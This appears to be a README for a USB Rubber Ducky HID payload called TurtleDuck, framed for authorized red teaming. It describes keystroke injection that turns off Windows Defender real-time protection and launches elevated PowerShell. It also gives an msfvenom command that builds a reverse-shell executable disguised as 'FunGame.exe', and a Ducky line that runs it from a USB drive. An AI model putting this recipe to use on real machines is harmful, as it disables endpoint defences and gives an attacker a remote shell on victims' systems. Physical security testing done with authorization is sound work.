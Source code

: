 # TurtleDuck: Windows Defender Disable + USB Executable Launch (Authorized Use Only)

> ⚠️ For ethical red teaming, physical security testing, and educational use **only**.

This repository demonstrates how to use a HID injection device (such as a **USB Rubber Ducky**) to:

* Simulate GUI automation of **disabling Windows Defender real-time protection**
* Prompt the user to plug in a USB drive
* Execute an `.exe` payload (e.g. `FunGame.exe`) from the USB device

⚠️ **Do not run this code on any system you do not have explicit permission to test.**

---

## 💼 Intended Use Cases

* Red team physical security testing (with written authorization)
* Social engineering simulation exercises
* Demonstrating physical attack surface to stakeholders
* Purple team testing of endpoint defenses

---

## 📋 What It Does (Step-by-Step)

1. Opens the Windows Defender Security Center via `windowsdefender:` URI
2. Navigates the UI using `TAB`, `ENTER`, and `SPACE` keystrokes to disable **real-time protection**
3. Launches an elevated PowerShell session using `Start-Process -Verb runAs`
4. Displays a message box instructing the user to plug in the USB within 15 seconds
5. Launches another elevated PowerShell session
6. Executes `FunGame.exe` directly from the USB (drive `D:\` assumed, adjust as needed)

---

## 🖱 Payload Trigger

Use a HID device like [Hak5 Rubber Ducky](https://shop.hak5.org/products/usb-rubber-ducky-deluxe) or [MalDuino](https://malduino.com/) to inject the keystrokes in `payload.txt`.

---

## 📁 Files
* `payload.txt` – Final Ducky Script HID payload 
* `README.md` – Documentation

---

## 🚀 Setup Instructions

1. Flash the HID device with the provided payload using the official encoder.
2. Prepare a USB drive labeled `MYUSB` with a file named `FunGame.exe` with a msfvenom payload using --msfvenom -p windows/shell_reverse_tcp LHOST= LPORT=4444 -f exe > FunGame.exe--
3. Insert the HID device into the target machine.
4. After Defender is disabled and the message appears, plug in the USB.
5. `FunGame.exe` will be executed from the USB.

---

## ⚙️ Customization

To change the USB drive letter:

* Modify this line in `payload.txt`:

  ```ducky
  STRING Start-Process "D:\FunGame.exe"
  ```
